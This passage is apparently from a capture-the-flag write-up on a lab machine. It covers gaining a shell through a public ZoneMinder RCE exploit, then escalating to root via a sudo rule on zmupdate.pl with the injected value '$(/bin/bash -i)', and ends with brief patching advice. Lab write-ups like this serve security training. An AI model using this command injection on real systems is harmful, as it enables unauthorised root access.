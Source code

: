 We found a login page for `ZoneMinder`.

I searched for `ZoneMinder exploit` on google and found an Unauthenticated RCE [CVE-2023-26035](https://github.com/rvizx/CVE-2023-26035).

Let's download the exploit and run it.

![zmshell](11.png)

The exploit worked perfectly and we got a shell as `zoneminder`.

### zoneminder -> root

After stabilizing our shell with python pty, we run `sudo -l` and get this:

```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

The `zmupdate.pl` script has a command injection vulnerability in the `--user` option, we exploit it with `$(/bin/bash -i)`.

```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ sudo /usr/bin/zmupdate.pl --version=1 --user='$(/bin/bash -i)' --pass=ZoneMinderPassword2023

Initiating database upgrade to version 1.36.32 from version 10

WARNING - You have specified an upgrade from version 10 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-10.dump. This may take several minutes.
root@surveillance:# 
```

We got root.

## **Prevention and Mitigation**

### CVEs

Always make sure to keep up with the updates of the software you use.

Both `ZoneMinder` and `Craft CMS` should be updated to newer version.
